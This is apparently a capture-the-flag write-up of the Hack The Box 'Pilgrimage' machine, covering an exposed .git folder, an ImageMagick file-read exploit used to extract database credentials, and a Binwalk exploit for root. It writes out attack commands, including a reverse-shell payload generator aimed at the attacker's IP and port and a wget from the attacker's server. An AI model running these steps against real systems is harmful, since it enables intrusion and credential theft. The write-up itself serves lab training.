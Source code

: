 ## Pilgrimage - Linux - Easy
### Reproduction
**Vulnerability Exploited**: Misconfiguration - Exploitation  

**System Vulnerabilities**:Kernel - Linux 5.10.0-23-amd64 - 10.10.11.219

**Vulnerabilities Explaination**: Misconfiguration lead to Arbitrary File Read (LFI) lead to RCE/ACE  

**Previlege Escalation Vulnerabilities**: Binwalk - CVE-2022-4510  

**Vulnerabilities Fix**: Update lasted version binwalk, Re-configuration information leaked.  

**Severity**: Critical

**Details**  
***Gathering&Exploitation***  
![dirsearch](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/dirsearch.PNG?raw=true)

Firstly, we using `dirsearch` tool to scan this server, we got `.git` link by misconfiguration leaked.  
From information we gathered by `dirsearch`, use `git dumper` tool dump all file from `pilgrimage.htb/.git`   
![dumping](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/git-dump.PNG?raw=true)  
After dump data from src `.git`, access `dumped` folder, read `login.php` back-end, got db name and db location use to  
get username and password login to web server `sqlite:/var/db/pilgrimage`  
![db-information](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/db-location.PNG?raw=true)  
On recently directory, we got `magick` ImageMagick 7.1.0-49 tool, got [CVE-2022-44268](https://github.com/Sybil-Scan/imagemagick-lfi-poc)  
Arbitrary File Read.  
use command `python3 generate.py -f "/var/db/pilgrimage" -o exploit.png`, upload exploit.png to website, shrink `http://pilgrimage.htb/`  
and download this png, using `exiftool <img.png> -b` got hex code  
![hex code](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/exiftool.PNG?raw=true)  
use [CyberChef](https://gchq.github.io/CyberChef/) to decode hext get readable data(sqlite).  
![sqli-readable-data](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/readable-message.PNG?raw=true)
use sqlitebrowser retrieving data from sqlite db file. got username and password of `emily` account.  
![ssh-account](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/user-pass.PNG?raw=true)  
Try to ssh emily@ip with password, got shell.  
***PE***  
I'm trying upload `linpeas.sh`, got some CVE but POC not work althought all of them `It work!`  
![CVE-2022-0487](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/cve%202022-0487.PNG?raw=true)  

Continues, i'm trying monitoring `pspy64` process of this machine, `oh Crap!` got a `malwarescan.sh` script running on process, read source file, they using `binwalk`  
while processing file upload, check version of binwalk we got `Binwalk v2.3.2` - exploitable [CVE-2022-4510](https://www.exploit-db.com/exploits/51249).   
![Binwalk-processing file](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/binwalk-read.PNG?raw=true)  
Using CVE-2022-4510, Create a payload PE `python3 51249.py your-any-images.png your-ip port`, on vulnerable machine at `/var/www/pilgrimage.htb/shrunk/`  
upload this payload on directory, i'm using python simple server to wget this payload from vulnerable machine `wget <myserver>:8000/payload.png` and netcat on payload port  
![PE-sucessfully](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/root.PNG?raw=true)

Rooted!  

***Flex***  
https://www.hackthebox.com/achievement/machine/1604413/549 












